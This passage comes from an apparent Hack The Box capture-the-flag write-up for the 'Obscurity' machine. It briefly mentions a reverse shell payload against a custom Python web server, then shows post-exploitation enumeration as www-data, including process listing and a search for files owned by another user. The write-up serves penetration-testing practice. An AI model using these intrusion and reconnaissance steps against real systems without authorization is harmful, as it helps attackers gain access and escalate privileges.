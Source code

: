 ```python
print(RESPONSE.headers)
print(RESPONSE.text)
```

This reverse shell payload can be executed against the SuperSecureServer.py service running on tcp/8080.<br>
<img src="https://github.com/jworl/htb-notes/blob/master/Obscurity/Screen%20Shot%202020-03-08%20at%202.16.11%20PM.png?raw=true"><br>

And now we have a foothold on the account running SuperSecureServer.py as a service. Now the real fun begins.

I like to start by identifying the processes running under my foothold account (www-data in this scenario).
`www-data@obscure:/$ ps aux | grep www-data`
```
www-data   1478  0.0  0.1  20048  3552 tty1     Ss   22:58   0:00 /bin/bash /var/SuperSecureServer/init.sh
www-data   1483  0.0  0.3 179916 11752 tty1     Sl   22:58   0:00 /usr/bin/python3 /var/SuperSecureServer/main.py
www-data   1913  0.0  0.1  20180  3996 tty1     S    23:22   0:00 /bin/bash -i
www-data   2271  0.0  0.1  38372  3708 tty1     R+   23:54   0:00 ps aux
www-data   2272  0.0  0.0  13136  1072 tty1     S+   23:54   0:00 grep www-data

```

/var/SuperSecureServer/ is an interesting path. Maybe we can read the directory.
`www-data@obscure:/$ ls -lh /var/SuperSecureServer`
yes, we can! robert is listed as an owner of these files.
```
total 28K
drwxr-xr-x 8 robert robert 4.0K Oct  5  2019 DocRoot
-rwxr-xr-x 1 root   root    103 Nov 26  2019 init.sh
-rwxr-xr-x 1 root   root    200 Nov 26  2019 keepalive.sh
-rw-r--r-- 1 robert robert  259 Oct  5  2019 main.py
drwxr-xr-x 2 robert robert 4.0K Nov 26  2019 __pycache__
-rw-r--r-- 1 root   root   5.8K Nov 26  2019 SuperSecureServer.py
```
Let's see if we can read other directories and files that robert owns.
`www-data@obscure:/$ find / -user robert 2> /dev/null | grep -Ev '^(/proc/|/var/SuperSecureServer/)'`
```
/var/SuperSecureServer
/home/robert
/home/robert/.bash_logout
/home/robert/user.txt
/home/robert/.bashrc
/home/robert/passwordreminder.txt
/home/robert/.local
/home/robert/.local/share
/home/robert/.gnupg
/home/robert/check.txt
/home/robert/SuperSecureCrypt.py
```